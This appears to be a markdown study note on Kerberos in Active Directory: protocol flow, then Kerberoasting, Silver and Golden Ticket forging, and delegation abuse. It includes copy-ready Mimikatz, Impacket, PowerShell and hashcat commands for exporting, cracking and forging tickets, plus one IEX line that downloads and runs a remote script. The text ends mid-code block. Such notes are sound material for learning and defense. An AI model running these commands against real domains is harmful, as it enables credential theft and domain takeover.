





# IAM - Kerberos 

## Protocol Summary

- Designed to lessening authentication related packets transmitted in the network  
- Not designed for today's network security
- Loosing KDC means, security is at total loss 
- Kerberos uses either `UDP/88` or `TCP/88` as transport protocol. Hence Kerberos itself is responsible of encrypting data.
- Several agents working together:
  - `Client` or user: who wants to access to the service.
  - `AP (Application Server)`: offers the service required by the user.
  - `KDC (Key Distribution Center)`: main service of Kerberos, responsible of issuing the tickets, installed on the DC (Domain Controller). It is supported by the `AS (Authentication Service)`, which issues the `TGTs`.
- Keys:
  - `KDC key` or `krbtgt key`: Derivate from krbtgt account NTLM hash.
  - `User key`: Derivate from user NTLM hash.
  - `Service key`: Derivate from the NTLM hash of service owner, which can be an user or computer account.
  - `Session key`: Negotiated between the user and KDC.
  - `Service session key`: to be use between user and service.
- Tickets:
  - `TGS (Ticket Granting Service)`: Ticket which user can use to authenticate against a service. It is encrypted with the service key.
  - `TGT (Ticket Granting Ticket)`: Ticket presented to the KDC to request for TGSs. It is encrypted with the KDC key.
- `PAC (Privilege Attribute Certificate)` is an structure included in almost every ticket.
  - It is possible to services to verify the PAC by communicating with the KDC
- Messages:
  - `KRB_AS_REQ`: Used to request the TGT to KDC.
  - `KRB_AS_REP`: Used to deliver the TGT by KDC.
  - `KRB_TGS_REQ`: Used to request the TGS to KDC, using the TGT.
  - `KRB_TGS_REP`: Used to deliver the TGS by KDC.
  - `KRB_AP_REQ`: Used to authenticate a user against a service, using the TGS.
  - `KRB_AP_REP`: (Optional) Used by service to identify itself against the user.
  - `KRB_ERROR`: Message to communicate error conditions.
  - `KERB_VERIFY_PAC_REQUEST`: AP send message to KDC including the signature of PAC, and verify if it is correct. (not part of Kerberos, but NRPC)

## Protocol Flow


> Ref:  [https://scriptdotsh.com/wp-content/uploads/2018/10/trust2.png](https://scriptdotsh.com/wp-content/uploads/2018/10/trust2.png)



> Source: [https://www.varonis.com/blog/kerberos-authentication-explained/](https://www.varonis.com/blog/kerberos-authentication-explained/)

> Ref: [https://www.youtube.com/watch?v=VpBCJ8vS7T0](https://www.youtube.com/watch?v=VpBCJ8vS7T0)


> Ref: [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf)

### Client - KDC (Pre-Auth) (Kerberos 5+)



> Ref: [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf)

- Client constructs an authenticator (request for TGT) containing:
  - Identify information - unencrypted.
  - Timestamp - **encrypted using user's password** (hash). User's password (hash) is used as symmetric key. 
- When a client sends a request (**AS-REQ**) for a ticket to the **Key Distribution Center (KDC)**. 
  - A timestamp is sent encrypted with user's password hash (also called **user's long term key**).
    - [When using SmartCard] 
      - [non-DH] Timestamp is signed using public-key and public-key is sent to DC
      - [DH] Timestamp is signed using public-key and public-key and DH parameters are sent to DC
  - If request can be decrypted with user's password hash,
  - And If request's time is within 5 minutes:
    - The KDC creates a **Ticket-Granting Ticket (TGT)** for the client
      - Special ticket that permits the client to obtain additional Kerberos tickets within the same Kerberos realm.
      - Usually good for 10 hours.
      - Containing: 
        - client name
        - IP address
        - timestamp
        - validity period - 10 hours max by default
    - Sends (**AS-REP**) the encrypted **TGT** + **TGS Session Key** back to the client
      - User portion (client can decrypt) - Encrypted with **user's password** (hash), contains:
        - **TGS Session Key** - Usable to encrypt communication between client and TGS
      - [When using SmartCard] 
          - [non-DH] Encrypted with public-key
          - [DH] Encrypted with DH info (?) not public-key
      - Server portion (client cannot decrypt) - Encrypted with **KDC's secret key** (**Domain key** / **krbtgt account**), contains:
        - **TGT** - Permits the client to obtain additional tickets (like TGS) which gives permission for specific services. Contains:
          - [Microsoft]  **Privilege Attribute Certificate (PAC)** containing:
            - Username
            - User's RID
            - Group membership
          - PAC is signed with:
            - Target key (for TGT target key is also KDC key)
            - KDC key
- If TGS Session Key can be decrypted using user's password (hash):
  - Client stores **encrypted** TGT and **decrypted (?)** TGS Session Key in **Kerberos Tray** 
    - Always lives in memory
    - Never saved into disk
    - Kerberos Tray can be explored with `kerbtray`





> Ref: [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf)

### Client - Service Authentication

- **TGS - Ticket granting service** is a KDC component that issues a service ticket when a client requests connection to a Kerberos service.
- Client sends following to TGS (**TGS-REQ**)
  - Copy of **TGT**
    - TGS can decrypt this using KDC's secret key
  - Name of the service
  - Time stamped client ID encrypted with **TGS Session Key**
    - TGS can decrypt this using user's password (hash)
- TGS will return (**TGS-REP**):
  - User Portion (User can decrypt) - Encrypted with **TGS Session Key**
    - **Service Session Key**
    - Validity time
  - Server Portion / Service Ticket (User cannot decrypt) - Encrypted with **service secret key**
    - **Privilege Attribute Certificate (PAC)**
    - 2 HMAC signatures:
      - Target key - Service account's hash (might be crackable)
      - KDC Key - Krbtgt account's hash (not easily crackable)
  - **Service Session Key**
    - User details
  - TGS will not do a permission validation. 
    - If user has a valid TGT that is all it takes to obtain a TGS. 
    - Validating if the user has access to the service is up to the service.
- Service Session Key and Service Ticket is stored in **Kerberos Tray** (?)
- Client send the following to service when necessary:
  - Encrypted **Service Ticket**
  - Time stamped authenticator encrypted with the **Service Session Key**
- Service will:
  - Decrypt the **Service Ticket** with its secret and validate both HMAC
  - Validate timestamped authenticator.
  - If both are fine, decrypted **Service Ticket** and check **Privilege Attribute Certificate (PAC)** to decide if access should be granted. 
  - 2 HMAC signatures during **PAC Validation**:
    - Target key - Service account's hash (might be crackable)
      - Always verified
    - KDC key - Krbtgt account's hash (not easily crackable)
      - Verified with KDC "sometimes" (since data should be sent to KDC for verification)
      - Windows send PAC Validation message to **NetLogin service** of DC if:
        - TCB (act as part of the OS) privilege is not there and it is not a **Service Control Manager (SCM)** account. 
        - :. generally if application is running as a service in local system, hash is not checked:
          - SQL Server, Exchange server: Generally does not check
          - App pools in web servers: Always check 
        - Can be asked to check always using regkey "ValidateKdcPacSignature"
- Service may:
  - Send a response with timestamp encrypted with the Service Session Key
  - Client decrypt and verify to prevent MitM

### Inter-forest Authentication

- Instead of encrypting with Domain1’s **krbtgt** account, a ticket is encrypted/signed with the inter-realm trust key that the domains previously exchanged, which is called as an “**Inter-realm ticket-granting-ticket/TGT.**” 
- Then Domain2 verifies the TGT included in the referral, decrypts it with the previously negotiated inter-realm trust key and proceeds further. An inter-realm TGT can be forged. 

### Other 

**Services (Microsoft Implementation)**

- When a domain account is configured to run a service (ex: MS SQL) in the environment, a **Service Principal Name (SPN)** is used in the domain to **associate the service with a login account**.

**krbtgt password**

- Changes with domain functional level update (ex: NT5 -> NT6)
- Recovery from restore media 
- Manually changed (compromise recovery)

**Formats**

- Encoded in `ASN.1`
- Kerberos Tickets are in `KRB-CRED` format: `RFC4120`
- Microsoft Specific `PAC` format: `cc237917`

## Attack Patterns 

### Kerberos brute-force

- Automated continued attempts to guess a password

### ASREPRoast
### Kerberoasting

**References** 

- <https://pentestlab.blog/2018/06/12/kerberoast/>

#### Quick Reference**

- The process of cracking **Kerberos service tickets** and **rewriting** them in order to gain access to the targeted service.
- Doesn’t require any interaction with the service
- as legitimate active directory access can be used to request and export the service ticket
- which can be **cracked offline** in order to **retrieve the plain-text password** of the service
- because **service tickets are encrypted with the hash (NTLM) of the service account**
- so any domain user can dump hashes from services without the need to get a shell into the system that is running the service.
- Any domain user has the rights by default on a standard domain to:
  - To request a `Service Ticket` for any service.
    - Permission checks are done later at the service. 
  - Request a copy of the `service accounts`. 
  - Request correlating password hash relevant to service accounts (?)
- Crackable and important tickets can be identified by considering:
  - SPNs bind to domain user accounts
  - Password last set
  - Password expiration
  - Last logon
- Tips 
  - Look for SQL Server instances with domain admin used as the service account
    - This is not recommended 
    - Instead, each service should use separate user accounts 
  - SMB by default use a computer account
  - Exchange server defaults to user account

#### Step 1 - Service Provider Name (SPN) and SPN Discovery

- Format: `ServiceType/Host[:Port][/DistinguishedName] [ServiceAccountName]`
- Users system doesn't know the account running the service
  - But KDC needs this info, so that Service Ticket can be encrypted using that account's hash
- SPN is the name by which 
  - a Kerberos client uniquely identifies an instance of a service 
  - for a given Kerberos target computer
  - **KDC has a mapping between ["Service" to "Account"]**
- A given service instance can have multiple SPNs 
  - if there are multiple names that clients might use for authentication.
- SPN always includes the name of the host computer 
  - A SPN is registered for each host alias
- Point users to the appropriate resource for connection
- Discovery via LDAP queries
- Help in identify hosts that are running important services
- Look for services associated with "User" accounts (can be easier to crack, compared to "Computer" accounts) - GetUserSPNs
- List of SPNs: [https://adsecurity.org/?page_id=183](https://adsecurity.org/?page_id=183)
- References:
  - [Microsoft - Service Principal Names (SPN): SetSPN Syntax](https://social.technet.microsoft.com/wiki/contents/articles/717.service-principal-names-spn-setspn-syntax.aspx?ranMID=24542&ranEAID=TnL5HPStwNw&ranSiteID=TnL5HPStwNw-EnSz6HaQXe8QIAFjmwLBEw&epi=TnL5HPStwNw-EnSz6HaQXe8QIAFjmwLBEw&irgwc=1&OCID=AID681541_aff_7593_1243925&tduid=(ir__ihutgwoxfckfryf0kk0sohzz0m2xmdzxvj1t9qcw00)(7593)(1243925)(TnL5HPStwNw-EnSz6HaQXe8QIAFjmwLBEw)()&irclickid=_ihutgwoxfckfryf0kk0sohzz0m2xmdzxvj1t9qcw00)

**Tools**

- SetSPN - Can, view, edit, and delete SPN registrations.
  - Register
    - `setspn -s ServiceClass/Host:Port AccountName`
    - `setspn -s FIMService/FIMSVR.contoso.com CONTOSO\FIMService` (-s verify that there are no duplicates)
    - `setspn -s http/CES1.corp.contoso.com CORP\CES`
  - View all the mappings:
    - `setspn -L hostname` (?)
    - `setspn -T pentestlab -Q */*`
  - Delete: `setspn -d ServiceClass/Host:Port AccountName`
  - Reset SPN registrations for account: `setspn -r AccountName`
  - Re-register all SPNs for a given host: `setspn -R hostname`
  - Discover missing SPNs: `DCDIAG /s:ServerName /c /v`
  - Write back computer account's AD replication SPN: `DCDIAG /fix`
  - Restart NTDS: `net stop ntds && net start ntds`
  - Check DC security errors (duplicate SPNs, etc): `DCDIAG /test:checksecurityerror`
- GetUserSPNs - Query the active directory to discover only services that are **associated with a user account** 
  - Part of: [https://github.com/nidem/kerberoast](https://github.com/nidem/kerberoast)
  - `powershell_import /root/Desktop/GetUserSPNs.ps1`
  - `cscript.exe GetUserSPNs.vbs`
- PowerShell AD Recon
  - Part of: [https://github.com/PyroTek3/PowerShell-AD-Recon](https://github.com/PyroTek3/PowerShell-AD-Recon)
  - Query the Active Directory for interesting services such as Exchange, Microsoft SQL, Terminal etc
    ```powershell
    powershell_import /root/Discover-PSMSSQLServers.ps1
    powershell_execute Discover-PSMSSQLServers
    
    powershell_import /root/Discover-PSMSExchangeServers.ps1
    powershell_execute Discover-PSMSExchangeServers
    ```
  - Find service accounts:
    ```powershell
    powershell_import /root/Find-PSServiceAccounts.ps1
    powershell_execute Find-PSServiceAccounts
    ```
- Empire: `usemodule situational_awareness/network/get_spn`
- PowerShellery
  - Part of: [https://github.com/nullbind/Powershellery](https://github.com/nullbind/Powershellery)
    ```powershell
    Get-SPN -type service -search "*" -List yes | Format-Table
    Get-SPN -type service -search "*"
    ```
  - Get UserSID, the service and the actual User.
    ```powershell
    Import-Module .\Get-DomainSpn.psm1
    Get-DomainSpn
    ```
- Impacket
  - Valid domain credentials are required for communication with the Active Directory as token based authentication cannot be used.
    ```powershell
    ./GetUserSPNs.py -dc-ip 10.0.0.1 pentestlab.local/test
    ```

#### Step 2 - Request Service Tickets

- Request is **sent to the KDC**, hence it's not required that service is accessible, available or even exit anymore.
- Request the service ticket for a specific SPN:
    ```powershell
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80"
    ```
- Alternatively, use Mimikatz by specifing target as the service principal name:
    ```
    kerberos::ask /target:PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80
    ```
- List all available cached tickets:
    ```
    klist
    ```
    ```powershell
    Invoke-Mimikatz -Command '"kerberos::list"'
    ```
    ```
    load kiwi
    kerberos_ticket_list
    ```
    ```
    kiwi_cmd kerberos::list
    ```
- Request Kerberos service tickets that belong to domain users only which should be easier to cracked compared to computer accounts service tickets (requires valid domain credentials in order to interact with the Active Directory since it will executed from a system that is not part of a domain):
    ```powershell
    ./GetUserSPNs.py -request pentestlab.local/test
    ```
- Automatically identify weak service tickets based on user account and password expiry (RiskySPN: [https://github.com/cyberark/RiskySPN](https://github.com/cyberark/RiskySPN)):
    ```powershell
    Find-PotentiallyCrackableAccounts -FullData -Verbose
    ```
- All user accounts that have an associated SPN:
    ```powershell
    Find-PotentiallyCrackableAccounts -Domain "pentestlab.local"
    ```
- Export to CVS (offline cracking):
    ```powershell
    Export-PotentiallyCrackableAccounts
    ```
- Get service tickets for service instance by its SPN:
    ```powershell
    Get-TGSCipher -SPN "PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80"
    ```
- Various functions that can be executed to request, list and export service tickets: [Auto-Kerberoast](https://github.com/xan7r/kerberoast)
    ```powershell
    List-UserSPNs
    List-UserSPNs -Domain "pentestlab.local"
    ```
- Mass request tickets (ticket for each account)
    ```powershell
    Add-Type -AssemblyName System.IdentityModel
    setspn.exe -T lab.local -Q */- | Select-String '^CN' -Content 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
    ./GetUserSPNs.ps1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName }

    ```

#### Step 3 - Export Service Tickets 

- List all available tickets from memory and save in remote host:
    ```powershell
    Invoke-Mimikatz -Command '"kerberos::list /export"'
    ```
- PowerShell Empire:
    ```
    usemodule credentials/mimikatz/extract_tickets
    standard::base64
    kerberos::list /export
    ```
- Extract Ticket hashes for services that support Kerberos authentication:
    ```
    usemodule credentials/invoke_kerberoast
    ```
- AutoKerberoast will request and extract all the service tickets in base64 format.
    ```powershell
    Invoke-AutoKerberoast
    Invoke-AutoKerberoast -GroupName "Domain Admins" -Domain pentestlab.local -HashForm
    ```
- Extract hashed in different formats (John, Hashcat and Kerberoast) - eliminates the need of Mimikatz for ticket export 
    ```powershell
    Get-TGSCipher -SPN "PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80" -Format John
    ```
- Extract TGT responses from PCAP:
    ```
    extracttgsrepfrompcap.py
    ```

#### Step 4 - Crack Service Tickets

- Crack ticket:
    ```
    python tgsrepcrack.py /root/Desktop/passwords.txt PENTESTLAB_001.kirbi
    ```
- Extract the Hash from Service Ticket
    ```
    python extractServiceTicketParts.py PENTESTLAB_001.kirbi
    ```
    ```
    tgscrack.exe -hashfile hash.txt -wordlist passwords.txt
    ```
- If PowerShell remoting is enabled then the password that has been retrieved from the service ticket can be used for execution of remote commands and for other lateral movement operations.
    ```powershell
    Enable-PSRemoting
    $pass = 'Password123' | ConvertTo-SecureString -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential -ArgumentList 'PENTESTLAB_001', $pass
    Invoke-Command -ScriptBlock {get-process} -ComputerName WIN-PTELU2U07KG.PENTESTLAB.LOCAL -Credential $creds
    ```
- Dump returned service account with its correlating password hash:
    ```powershell
    powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/nettitude/PoshC2/master/Modules/powerview.ps1 Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash1.txt"

    hashcat64.exe -m 13100 "C:\Hash1.txt" C:\Rocktastic12a --outfile="C:\OutputHash1.txt"`
    ```

#### Step 5 - Rewrite Service Tickets & RAM Injection

- Kerberos tickets are signed with the NTLM hash of the password. 
- If the ticket hash has been cracked then it is possible to  rewrite the ticket with Kerberoast python script.
- Allow: 
  - Impersonate any domain user when the service is going to be accessed.
  - Privilege escalation is also possible as the user can be added into an elevated group such as Domain Admins. 
    ```powershell
    python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -u 500
    python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -g 512
    ```
- Also fake account. Use Mimikatz to generate ticket (change RID of the account to 1106):
    ```
    kerberos::golden
    /domain:lab.local
    /sid:<sid>
    /groups:123,124,125
    /target:target.local
    /service:MSSQLSvc
    /ticket:target.local.kirbi
    /rc4:<service's hash>
    /ppt
    /id:1106
    /user:tm
    ```
  - `/ppt` will directly inject the fake account into memory.
  - `/id` and `/user` can be invalid values, so that logs will be useless 
  - `/groups` can be altered to add user to domain-admin
- The new ticket can be injected back into the memory with 
    ```
    kerberos::ptt PENTESTLAB.kirbi
    ```

#### Defense 

- Use `*-ADServiceAccount` cmdlet to create service accounts
- Pick really random, good passwords (25+ chars )
- Monitor DC for bursts of Service Ticket requests (Event ID 4769)
- Force services to verify PAC
	- Doesn't prevent cracking
	- Prevent writing
	- Can impact performance
  
### Pass the key
### Pass the ticket

- The process of forging a session key and presenting that forgery to the resource as credentials

### Silver Ticket

- [Silver Ticket:](https://www.varonis.com/blog/kerberos-attack-silver-ticket/) A forged ticket that grants access to a serviceCredential stuffing.
- Password hashes of service accounts could be used to create
- Kerberos session ticket (TGS) has a sever portion which is encrypted with the password hash of the service account.
- Can request a ticket and do offline brute forcing.


> https://drive.google.com/open?id=1iSXKVgkO_U61MCf0ItaZgyMt-406pWdD

- KDC does not handle authorization
- Can request TGS for any service
- TGS is encrypted using target-service NTLM hash
- .:. it is possible to brute-force the TGS to get target-service account credentials

- Find Service Accounts
  - GetUserSPNs - <https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py>
  - PowerView (SPN = Service Principal Name)
      ```powershell
      Get-Netuser -SPN
      ```
  - ActiveDirectory Module
      ```powershell
      Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1

      Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
      ```
- Request SPN Ticket
    ```powershell
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<server-name>"
    ```
    - PowerView
    ```powershell
    Request-SPNTicket
    ```
- Save Tieket
  - List all tickets in cache (check if granted): `klist`
  - Mimikatz: `Invoke-Mimikatz -Command '"kerberos::list /export"'`
- Bruteforce `tgsrepcrack` or use John
    ```
    python.exe .\tgsrepcrack.py .\password.txt '<ticket>'
    ```

### Golden Ticket

- [Golden Ticket:](https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/) A ticket that grants a user domain admin access
- Ticket not made by KDC (ticket is self-made)
- Not limited by GPO
- Smart-card independent
- Hence, it's possible to push anything
- Since we have krbtgt
  - Can modify PAC
  - Group ID, SID, Username
- **Kerberos is stateless**
  - All account policy is client side enforcement 
    - Disabled / Expiry / Logon hours
    - Silo memberships 
    - Protected Users  and other group memberships
  - With Kerberos 5 - TGS / KDC has no way of validating that account is still valid when presented with TGT.
    - Microsoft implement:
      - If **TGT** is **older than 20 mins** the **TGS** will validate the account with KDC when issuing a service ticket. Account validity and check enabled state is checked.  
      - However, with Golden Ticket we issuer our own TGT. Therefore, it is possible to issue TGT with recent issued-times to bypass this check.
- Why attack on TGT, but not on TGS?
  - Service account passwords are rotated every 30-40 days. 
  - Krbtgt account password is never changed. 
  - A singled TGT can get many TGS. 

|      | Ticket Encryption | PAC KDC Signature | PAC Server Signature |
| ---- | ----------------- | ----------------- | -------------------- |
| TGT  | krbtgt            | krbtgt            | krbtgt               |
| TGS  | target            | krbtgt            | target               |

- Generating "Golden Ticket" requires:
  - KDC key (krbtgt)
  - SID of the domain (whom, psgetsid)
  - Domain name

```
lsadump::lsa /inject /name:krbtgt
kerberos::golden /domain:<domain>
  /sid:<domain-sid>
  /rc4:<ntlm-hash-of-krbtgt>
  /user:Administrator
  /id:500                         <- RID of the user (500 is domain admin)
  /groups:513,512,520,518,519
  /ticket:Administrator.kirbi     <- ticket filename
```

### Encryption downgrade with Skeleton Key Malware

- A malware that can bypass Kerberos, but the attack must have Admin access

### DCShadow attack

- A new attack where attackers gain enough access inside a network to set up their own DC to use in further infiltration

### Smart Card Authentication with DH Keys



- If certificate based authentication is required DH must be implemented (as per spec)
- RFC 4556
- RFC 5349
- Microsoft improved current protocol with draft:
  - <https://tools.ietf.org/html/draft-ietf-kitten-pkinit-freshness-07>
  - <https://datatracker.ietf.org/meeting/91/session/kitten>
    - <https://datatracker.ietf.org/meeting/91/materials/slides-91-kitten-1.pdf>
  - In order for GPO to work full network should be aware of it (> Windows 10 & 2016)
- Detect using IPS rule to inspect `AS-RE`Q (`AS-REQ` is now signed, not encrypted)

### Attacking Windows PKI 

- Mimikatz can export Windows CA (NTAuth certificate store )
- Ask PKI server to generate a raw certificate (with any required expiry and any required user) without CRLDP so that cert cannot be revoked. 

## Kerberos Delegation

- Allows reusing the end-user credentials to access resources hosted on a different server.
- Used when `Kerberos Double Hop` is required.
- Impersonating the incoming/authentication user is necessary to work.
- Types:
  - Unconstrained (only Windows Server 2003 <) - Allow authentication to any service in the domain
  - Constrained

### Unconstrained Kerberos Delegation


- <https://drive.google.com/open?id=1VZvQcin4RN7PkByplk-LhI1P3mrCoJXY>

1. User provide credentials to DC
2. DC returns TGT
3. User request TGS for web service
4. DC provides TGS (TGS contains user's TGT)
5. User sends TGT and TGS to web Server
6. Web server service account use user's TGT to request a TGS got database server from DC
 - Web server service account can decrypt TGS and extract the user's TGT
 - This is because TGS is encryoted with web server service account's NTLM hash
7. Web server service account connects to database impersonating the user

- Identifying Nodes with Unconstrained Delegation Enabled
    ```
    Get-NetComputer -UnConstrained
    ```
    ```
    Get-ADComputer -Filter {TrustedForDelegation -eq $True}
    Get-ADUser -Filter {TrustedForDelegation -eq $True}
    ```
- Attack Pattern
  - Compromise the server that use unconstrained delegation
  - Wait for a high privileged connect
  - Once connected, export all the tickets including TGT for that User
    ```
    Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
    ```
  - Reuse tickets with
    ```
    Invoke-Mimikatz -Command '"kerberos::ppt C:\tickets\admin.kirbi"'
    ```

### Constrained Kerberos Delegation

- Only provide access to specified services on a specifiv computer
- Service account must have TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl attribute
- Service account can asccess all services specified in msDS-AllowedToDelegateTo attribute

- Identifying Users with Unconstrained Delegation Enabled
    ```
    Get-DomainUser -TrustedToAuth
    Get-DomainComputer -TrustedToAuth
    ```

    ```
    Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1

